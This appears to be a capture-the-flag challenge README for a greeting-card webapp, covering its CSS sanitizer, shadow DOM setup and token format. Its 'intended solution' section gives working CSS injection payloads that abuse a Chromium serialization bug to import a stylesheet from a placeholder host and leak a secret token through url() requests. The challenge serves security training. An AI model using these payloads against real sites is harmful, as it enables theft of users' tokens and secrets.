 # In the shadows

## Overview

The challenge is a very small webapp to create online greetings cards.

## The goal

The goal of the challenge is to bypass a CSS sanitizer to exfiltrate a token stored in an attribute of the `<body>` tag. The token is expected to be at least 96-hexadecimal-digits long. An example of a token to steal is:

```html
<body
  secret="088787d8ff144c502c7f5cffaafe2cc588d86079f9de88304c26b0cb99ce91c65d22c93dc161a03cefb7b3718164b208"
></body>
```

The token will be randomly generated on every page load requiring the participants to exfiltrate it in one go.

## Token format

The expected format of the token is (in pseudo-Python’s notation):

```python
first_part = ("1" if user_is_admin else "0") + random_hex(31)
timestamp = current_time + timedelta(minutes=5)
payload = first_part + timestamp
sig = hmacsha256(payload)
token = payload + sig
```

Thanks to HMAC, we won’t have to store valid tokens; we’ll be able to tell if the token is valid, and if the token belongs to an admin user. The first digit of will be “1” only if run by the XSS bot.

## Implementation

Here’s the overview of the implementation of the sanitization:

1. The app defines a custom element called `sanitized-content` whose shadow DOM contains HTML sanitized by DOMPurify with a custom sanitizer for style elements.

1. Shadow DOM by design provides an encapsulation of CSS, i.e. it’s not normally possible (bar certain special CSS functions) to use CSS selectors on the content outside of the shadow DOM.

1. DOMPurify is configured to limit the possibility of an unintended solution using XSS:
   - Only HTML namespace allowed,
   - Returns DocumentFragment instead of a string (no mutation XSS risk),
   - Certain funky tags are disallowed (such as noscript, template, xmp etc.).
1. The custom CSS sanitizer works the following way:
   - It immediately disallows the CSS if it contains `@import` statement or `url(` function.
   - It parses the CSS to CSSOM (CSS Object Model).
   - It iterates over all rules of the CSS and accepts only a handful of them (for instance: disallows `@media`, `@page` or `@namespace` rules but allows `@keyframes` or `@counter-style` rules).
   - In selectors, it disallows selectors containing the character `:`.
   - It serializes the CSS and checks again whether there is any `@import` or `url(`. If there is, the CSS is discarded.
   - Otherwise the CSS is returned.
1. To further limit the risk of unintended solutions using XSS, a nonce-based CSP for scripts is used.

`sanitized-content` will be used on both HTML preview and the share URL.

## The challenge

In order to solve the challenge, the participants will have to solve the following problems:

1. The shadow DOM provides a natural encapsulation layer for CSS. The participants need to find that there exist only a handful of functions which allow breaking the encapsulation (although still in a limited way), such as: `:host` or `:host-context`.
1. The token is very long and cannot be realistically exfiltrated in a single stylesheet. Therefore it is required to use `@import` and use tricks to exfiltrate the whole token with a single injection point (tricks from my old blog post can be used here).
1. The CSS sanitizer parses the CSS and explicitly disallows `@import`. The only way to inject your own CSS is to abuse a bug in Chromium in CSS serialization in certain at-rules such as @keyframes.
1. `@import` is allowed in CSS only if it appears before other at-rules and qualified rules. Therefore, to make the exploit work, the participants must make sure that anything before `@import` is syntactically invalid so that `@import` is the first valid statement in the stylesheet.

## XSS bot

In the share feature, there will be a button to share it also with the admin. This will run an XSS bot that’ll visit the page. The app itself will distinguish admin from ordinary users by a cookie value.

There is nothing unusual to implement in the XSS bot.

## Intended solution

Here’s (more or less) the intended solution for this challenge:

### The stylesheet

```css
@keyframes a\ b\;\@\\import\'https\:\/\/participants-server.com\'\; {
}
```

Because of a Chromium bug, after re-serialization, the stylesheet will have the following form:

```css
@keyframes a b;@\import'https://participants-server.com';{}
```

The initial `@keyframes` has two values which is incorrect per CSS spec and the declaration will be ignored by the parsed. Therefore `@import` becomes the first statement which is valid. The additional slash (in `@\import`) is to ensure that step e of the sanitizer, described above, won’t block the stylesheet.

### The imported stylesheet

```css
:host-context(body[secret^="a"]) {
  background: url("https://participants-server.com/a");
}
:host-context(body[secret^="b"]) {
  background: url("https://participants-server.com/b");
}
/* .... */
```

The core idea is to use `:host-context` to break the encapsulation of the shadow DOM and steal the token char-by-char. While not shown in this readme, tricks from [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/) can be used to exfiltrate the token in one go.
